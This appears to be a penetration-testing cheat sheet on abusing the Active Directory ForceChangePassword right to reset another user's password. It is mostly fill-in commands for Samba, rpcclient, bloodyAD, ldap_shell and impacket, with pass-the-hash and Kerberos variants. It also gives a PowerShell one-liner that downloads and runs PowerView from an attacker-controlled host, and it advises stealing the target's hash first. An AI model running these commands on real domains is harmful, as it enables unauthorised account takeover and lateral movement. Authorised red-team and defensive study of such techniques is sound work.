 # Abusing ForceChangePassword

If an user have ForceChangePassword over another user can change that user password. If you have other options to steal the hash from that user, I strongly recommend you to do it before change their password. That hash could be valid for other users if password is reused. 

### From Linux (enternally recomended):

Samba tools -> `net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'<password>' -S '<dc_ip>'`

rpcclient -> `-U <domain>/<controlled_user> <dc-ip>`

`rpcclient $> setuserinfo <target_user> 23 <new_password>`

BloodyAD -> `bloodyAD --host 'dc_ip' -d '<domain>' -u '<user>' -p '<password>' set password <target_user> '<new_password>'`

Ldap_shell -> `ldap_shell <domain>/<user>:<password> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

Using SMB protocol.
 - In case LDAP is not an option you can still abuse ForceChangePassword over SMB protocol using impacket tools:

`changepasswd.py <domain>/<target_user>@<ip> -newpass <new_password> -altuser <domain>/<controlled_user> -altpass <controlled_user_password> -reset`

Note: use 'impacket-changepasswd' for kali, and 'changepasswd.py' from normal UNIX/LINUX machines.

<br>

With PASS THE HASH option:

Samba tools -> `pth-net rpc password '<target_user>' '<new_password>' -U '<domain>'/'<controlled user>'%'LMhash':'NThash' -S '<dc ip>'`

BloodyAD -> `bloodyAD --host '<dc-ip>' -d '<domain>' -u '<user>' -p ':<nt_hash>' set password '<target_user>' '<new_password>'`

Ldap_shell -> `ldap_shell '<domain>/<user>:' -hashes ffffffffffffffffffffffffffffffff:<nt_hash> -dc-ip <ip>`

`set password <target_user> <new_password>`

<br>

With KERBEROS auth:

BloodyAD -> `bloodyAD -k --host <machine.domain> -d <domain> -u '<user>' -p '<password>' set password <target_user> '<new_password>'`

<br>

### From Windows (internally):

Load powerview -> `IEX (new-object net.webclient).downloadstring('http://<your_evil_ip_or_domain>/powerview.ps1')`

`$NewPassword = ConvertTo-SecureString '<new_password>' -AsPlainText -Force`

`Set-DomainUserPassword -Identity '<target_user>' -AccountPassword $NewPassword`



### Articles:

https://www.hackingarticles.in/forcechangepassword-active-directory-abuse/

https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword
